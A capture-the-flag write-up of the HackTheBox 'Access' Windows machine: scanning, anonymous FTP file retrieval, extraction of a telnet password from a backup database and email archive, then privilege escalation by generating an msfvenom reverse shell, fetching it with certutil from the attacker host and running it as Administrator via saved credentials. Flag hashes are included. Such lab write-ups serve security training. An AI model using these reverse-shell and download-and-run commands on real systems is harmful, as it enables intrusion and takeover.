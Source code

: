 ```yaml
---
title: "Access"
date: 2025-05-15
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Access

![](../assets/Pasted%20image%2020250515230704.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.98
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-15 23:06 CEST
Nmap scan report for 10.10.10.98
Host is up (0.042s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|2012|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (92%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   41.63 ms 10.10.14.1
2   42.22 ms 10.10.10.98

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 208.51 seconds
```

The website shows an image of servers.

![](../assets/Pasted%20image%2020250515231318.png)

Enumerating the `FTP` service, we find two folders: `Backups` and `Engineer`.

Get the files inside both of them.

```shell
$ ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:kali): ftp
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
ftp> ls backups
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb
226 Transfer complete.
ftp> ls engineer
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  01:16AM                10870 Access Control.zip
226 Transfer complete.
```

The zip file is password protected, so use `strings` on `backup.mdb` to see the password.

![](../assets/Pasted%20image%2020250516162836.png)

Now unzip the `.pst` file.

First, using `readpst`, create an `mbox` file and then read it.

```shell
$ readpst Access\ Control.pst 
Opening PST file and indexes...
Processing Folder "Deleted Items"
        "Access Control" - 2 items done, 0 items skipped.
```

```shell
$ cat Access\ Control.mbox 
From "john@megacorp.com" Fri Aug 24 01:44:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
        boundary="--boundary-LibPST-iamunique-1909107888_-_-"
...

Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John

...

```

So we now have `security:4Cc3ssC0ntr0ller`.

## Initial Access

Using the credentials, try `telnet` on `port` `23`.

```shell
$ telnet 10.10.10.98 23
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security

```

Get the flag:

```shell
C:\Users\security>type desktop\user.txt
d317a0b870778120819e6db932f1752d
```

## Privilege Escalation

There are stored administrator credentials:

```shell
C:\Users\security>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

Create a reverse shell and upload it to the machine.

```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=5555 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

```shell
C:\Users\security>certutil -f -split -urlcache http://10.10.14.14:8000/reverse.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.
```

Now start a listener and, using `runas`, execute the shell.

```shell
C:\Users\security>runas /savecred /user:ACCESS\Administrator ".\reverse.exe"
```

```shell
$ rlwrap nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.98] 49163
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
access\administrator
```

## Post Exploitation

Get the flag:

```shell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
04c18a0791cf85431a0284101f6aef72
```
